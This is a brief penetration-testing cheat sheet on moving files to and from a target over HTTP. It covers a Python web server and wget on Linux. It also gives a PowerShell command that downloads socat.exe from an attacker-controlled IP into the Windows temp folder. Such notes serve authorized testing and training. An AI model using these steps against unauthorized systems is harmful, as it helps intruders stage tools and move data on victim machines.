 **Tags:** #type/tool #tactic/exfiltration 
**Link:** 
**Purpose:** transfer files using http

---
# Info
sets up a 3 python webserver, then you can access files from remote machines that you are reachable from
# Usage

execute in directory to make files accessable via HTTP requests
`python3 -m http.server 8000` - 8000 is the port

on Linux target:
`wget` to download files
`chmod +x FILENAME.sh` to make executable

on Windows target: `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`

